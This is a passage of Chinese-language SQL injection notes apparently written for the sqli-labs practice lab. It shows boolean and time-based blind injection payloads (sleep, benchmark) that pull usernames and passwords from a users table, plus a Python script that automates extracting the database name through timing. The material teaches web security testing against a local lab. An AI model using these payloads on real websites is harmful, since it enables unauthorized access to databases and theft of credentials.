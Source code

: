 ```
?id=1' and length((select group_concat(username,password) from users))>109--+

//逐一检测内容
?id=1' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+

```

#### 基于时间盲注

sleep()函数

```
id=1' and If(ascii(substr(database(),1,1))=115,1,sleep(5))-- #
当正确时无明显延迟,错误有明显延迟
```

benchmark () 函数

```
id=1' UNION SELECT (IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,ENCODE('MSG','by 5 seconds')),null)),2,3 FROM (select database() as current) as tb1-- #
```

script

```python
# coding:utf-8
import requests
import datetime
import time

# 获取数据库名长度


def database_len():
    for i in range(1, 10):
        url = "http://127.0.0.1/sqli-labs/Less-5/index.php"
        payload = " ?id=1' and if(length(database())>%s,sleep(1),0) --+" % i
        # print(url+payload+'%23')
        time1 = datetime.datetime.now()
        r = requests.get(url + payload)
        time2 = datetime.datetime.now()
        sec = (time2 - time1).seconds
        if sec >= 1:
            print(i)
        else:
            print(i)
            break
    print('database_len:', i)

#获取数据库名
def database_name():
    name = ''
    for j in range(1,9):
        for i in '0123456789abcdefghijklmnopqrstuvwxyz':
            url = "http://127.0.0.1/sqli-labs/Less-5/index.php"
            payload = "?id=1' and if(substr(database(),%d,1)='%s',sleep(3),1) --+" % (j,i)
            #print(url+payload)
            time1 = datetime.datetime.now()
            r = requests.get(url + payload)
            time2 = datetime.datetime.now()
            sec = (time2 - time1).seconds
            if sec >=3:
                name += i
                print(name)
                break
    print('database_name:', name)
```